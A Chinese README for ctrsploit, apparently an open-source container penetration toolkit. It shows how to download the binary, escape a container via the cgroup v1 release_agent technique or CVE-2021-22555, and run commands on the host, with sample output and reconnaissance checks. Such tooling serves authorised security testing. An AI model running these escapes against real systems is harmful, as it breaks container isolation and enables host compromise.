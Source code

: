 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

## Pre-Built Release
https://github.com/ssst0n3/ctrsploit/releases

## Usage
### Quick-Start

## Details
### exploit
| exploit | 缩写 | 简述 | 详细文档 |
| --- | --- | --- | --- |
| cgroupv1-release_agent | ra | escape tech by using the notify_on_release of cgroup v1 | [doc](./exploit/cgroupv1-release_agent/README.md) |
| cgroupv1-release_agent-unknown_rootfs | ra3 | escape tech by using the notify_on_release of cgroup v1 without known rootfs | [doc](./exploit/cgroupv1-release_agent-unknown_rootfs/README.md) |
| cve-2021-22555 | 22555 | escape tech by using the CVE-2021-22555 | [doc](./exploit/CVE-2021-22555/README.md) |

### Help

```
wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a     auto gathering information, and detect vuls, and exploit // TODO
   exploit, e  run a exploit
   env, e      gather information // TODO
   help, h     Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --lang value  language for the greeting (default: "english")
   --help, -h    show help (default: false)
```

### run a exploit
```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:
```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ssst0n3/ctrsploit/releases/download/v0.1/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

如果我们不知道容器rootfs在宿主机上的路径，我们仍然可以完成逃逸：
```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```

### 信息收集
usage
```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   where, w        detect whether you are in the container, and which type of the container
   graphdriver, g  detect graphdriver type and extend information
   cgroups, c      gather cgroup information
   help, h         Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)
```

查看当前是否在容器内，在何容器内：
```
root@ctr:/# ./ctrsploit  env  w
INFO[0000] ===========Docker=========
.dockerenv exists: ✔
rootfs contains 'docker': ✔
cgroup contains 'docker': ✘
the mount source of /etc/hosts contains 'docker': ✔
hostname match regex ^[0-9a-f]{12}$: ✔
=> is in docker: ✔ 
INFO[0000] ===========k8s=========
/var/run/secrets/kubernetes.io exists: ✘
hostname match k8s pattern: ✘
the mount source of /etc/hosts contains 'pods': ✘
cgroup contains 'kubepods': ✘
=> is in k8s: ✘ 
```

查看cgroup版本
```
root@ctr:/# ./ctrsploit env c
INFO[0000] ===========Cgroups=========
is cgroupv1: ✘
is cgroupv2: ✔ 
```

存储驱动
```
root@ctr:/# ./ctrsploit env g
INFO[0000] ===========Overlay=========
Overlay enabled: false 
INFO[0000] ===========DeviceMapper=========
DeviceMapper enabled: true
DeviceMapper used: true
The number of devicemapper used in running container: 11 ( =(count(running containers)+1) )
The host path of container's rootfs: /var/lib/docker/devicemapper/mnt/1659264e845b55b8c9ec42034d7d2dcc23159ebd06f3c69983e764f26eab9721/rootfs 
```

capability
```
root@ctr:/# ./ctrsploit env cap
INFO[0000] ===========Capability=========
pid 1
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]

current process
[caps]
0xa82425fb != default(0xa80425fb)

[parsed]
[CAP_CHOWN CAP_DAC_OVERRIDE CAP_FOWNER CAP_FSETID CAP_KILL CAP_SETGID CAP_SETUID CAP_SETPCAP CAP_NET_BIND_SERVICE CAP_NET_RAW CAP_SYS_CHROOT CAP_SYS_ADMIN CAP_MKNOD CAP_AUDIT_WRITE CAP_SETFCAP]

[Additional Capabilities]
["CAP_SYS_ADMIN"]
```

## Todo List

参见 [FEATURES.md](./FEATURES.md)